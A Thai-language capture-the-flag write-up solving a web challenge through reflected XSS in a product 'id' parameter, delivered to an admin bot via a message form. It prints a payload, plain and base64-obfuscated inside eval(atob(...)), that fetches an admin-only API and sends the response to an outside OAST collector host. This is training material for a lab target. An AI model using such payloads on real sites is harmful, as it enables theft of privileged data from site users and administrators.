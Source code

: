 > หน่วยข่าวกรองได้รับข้อมูลมาว่า แก๊งมิจฉาชีพได้ใช้แบบฟอร์มบนหน้าเว็บไซด์นี้ในการส่งข้อมูลผิดกฎหมาย ทางที่ปรึกษาด้าน CyberSecurity บอกว่า เราอาจจะสามารถ เจาะระบบแก๊งมิจฉาชีพ ได้ถ้าเว็บไซด์นี้มีช่องโหว่ Cross-Site Scripting
> 
> 
> URL เว็บโจทย์ (มี Flag): [https://wtctt24.open.web3.p7z.pw](https://wtctt24.open.web3.p7z.pw/)
> 
> โค้ดเว็บ (ไม่มี Flag): https://static.wtctt24.p7z.pw/open_web3.zip
> 
> หมายเหตุ:
> 
> - Flag จะอยู่ในรูปแบบ flag{junior_webX_XXX} เช่น flag{open_web1_e758148af358200bf364c8d9282b7f04}
> - ช่องโหว่ไม่จำเป็นต้องทำ Port Scan ด้วย Nmap
> - ช่องโหว่ไม่จำเป็นต้องทำ URL Fuzzing เพื่อหา Directory หรือ File ที่เป็นชื่อลับ
> - โจทย์ไม่ได้ถูกออกแบบมาให้แก้ไข โดยใช้โปรแกรมสแกนช่องโหว่อัตโนมัติ

Browse เว็บขึ้นมา มาเป็นร้านลาบูบู้เลยนะ

![image](https://github.com/user-attachments/assets/3b4e57bc-e17d-43f2-af7e-b06d1c6987e1)

เลื่อนลงมาข้างล่าง ก็จะเจอเป็น Direct Message to Admin มีชื่อมีข้อความมีที่วางลิ้ง

![image](https://github.com/user-attachments/assets/1c688bdb-8cf4-48e0-9dc1-3b3a510a0942)

โจทย์ให้โค้ดมาด้วยก็เลยอ่ะ ลองไปอ่านโค้ดซิ

```javascript
route.get("/api/env", (req, res) => {

    if (!cookieHeader) {
        return res.status(403).json({ error: "access denied" });
    }

    const cookies = {};
    cookieHeader.split(';').forEach(cookie => {
        const [key, ...val] = cookie.trim().split('=');
        cookies[key] = val.join('=');
    });

    const accessToken = cookies['access_token'];

    if (accessToken === '<ADMIN_BOT_COOKIE>') {
        return res.json({ flag: "<FLAG>" });
    } else {
        return res.status(403).json({ error: "access denied" });
    }
});
```

เราต้องเอาคุกกี้ admin มาเพื่อไปยิง API env ซึ่งคุกกี้ที่ว่าก็ได้มาจากไหนต้องลองไปหาดู ไหนลองกลับไปดูที่ตัวเว็บอีกทีซิว่ามีอะไรอีกมั้ยที่ยังไม่ได้ดู เปิด page source ขึ้นมา เลื่อนลงไปดูเผื่อมี hint

![image](https://github.com/user-attachments/assets/206af1b4-bcb5-48eb-af32-376621d9cd63)

จะเห็นได้ว่า user admin สามารถเห็น secret menu ได้ แต่ก็ต้องฝันสลายเมื่อ cookie ของ admin โดนคุมกำเนิดด้วย HttpOnly อ่ะ งานหยาบละ (เพราะ HttpOnly มีฤทธิ์ทำให้ไม่สามารถรัน JavaScript จาก XSS ได้)
แต่ก็ยังไม่อับจนหนทาง เมื่อเราสังเกตได้ว่า ตอนที่เราไปคลิก view product เราจะเห็น parameter `id` โผล่มาต่อท้าย URL

![image](https://github.com/user-attachments/assets/32381556-e53d-45d1-ba08-489ee9330e59)

What if ถ้าเราลองยัด Reflected XSS ไปซักตัวล่ะ: `https://wtctt24.open.web3.p7z.pw/?id=%3Cimg+src=x+onerror=alert(1)%3E`

![image](https://github.com/user-attachments/assets/b3c78d2a-6e8d-42e5-beba-7dd50681f191)

โอเค Proof แล้วว่าเราตี XSS ที่ parameter `id` ได้ ซึ่งถ้าเราลองเอา URL ที่ว่านี่ไปใส่ในฟอร์ม admin = admin โดน XSS เต็มๆ แต่เราจะรันยังไงให้แหก HttpOnly ไปเอา cookie ได้ล่ะ
แล้วทำไมเราต้องไปขโมยคุกกี้? ในเมื่อเราสามารถยิงไปหา admin ให้ admin เอา flag มาให้เราตรงๆเลยก็ได้นี่นา จากการงม research และดูเฉลยก็จะได้ว่าเราจะยิง payload นี้ไปเพื่อให้ได้ flag ออกมาจาก API env:

```javascript
fetch("/api/env").then(r=>{r.text().then(t=>{ new Image().src="nfceupocysanalcdgsusjz4bhc62qtt4d.oast.fun/?"+encodeURIComponent(t))})})
```

(อย่าลืมเปิด `ngrok` or `interactsh-client` เอา OAST URL มาแปะใน payload ด้วย)
เราจะทำการยิงไปที่ `/api/env` แล้วให้ admin click link ส่ง flag กลับมาผ่าน request/response ที่จะยิงตรงกลับมาที่ OAST server ของเรา เพื่อป้องกันการถูก sanitize payload เอาไป encode base64 ก่อน

![image](https://github.com/user-attachments/assets/8d88f1c6-c2d5-4b16-888b-31403684d1dc)

แล้วเอา payload มาเข้าตัว XSS ที่เราได้ PoC ไปก่อนหน้านี้ ให้ payload ทำการรันคำสั่งแล้วแปลง base64 เป็นคำสั่งต้นฉบับ ทำให้ admin โดนให้คลิกลิ้งที่เราเตรียมไว้ (ต้องยิงเป็น http ไม่งั้นยิงไม่ได้ มันกันบอต)

![image](https://github.com/user-attachments/assets/1e32f81e-b159-4df0-87f4-7b553b26e772)

```javascript
http://wtctt24.open.web3.p7z.pw/?id=<img src=x onerror=eval(atob(`ZmV0Y2goIi9hcGkvZW52IikudGhlbihyPT57ci50ZXh0KCkudGhlbih0PT57IG5ldyBJbWFnZSgpLnNyYz0i4LmJaHR0cDovL25mY2V1cG9jeXNhbmFsY2Rnc3Vzano0YmhjNjJxdHQ0ZC5vYXN0LmZ1bi8/IitlbmNvZGVVUklDb21wb25lbnQodCkpfSl9KQ==`))>
```

ว่าแล้วก็เอาไปใส่ฟอร์ม กด send รอแป๊บนึงให้ admin ไปยิง env API ให้ แล้วเราจะได้ flag กลับมาเรียบร้อย

![image](https://github.com/user-attachments/assets/aed38e43-64a3-4d02-8781-7c725201c291)

![image](https://github.com/user-attachments/assets/07e6dd45-7165-45eb-8e1c-51720b5f1f51)

![image](https://github.com/user-attachments/assets/87de97a8-5d0a-48e2-a1b4-328f47aed04a)
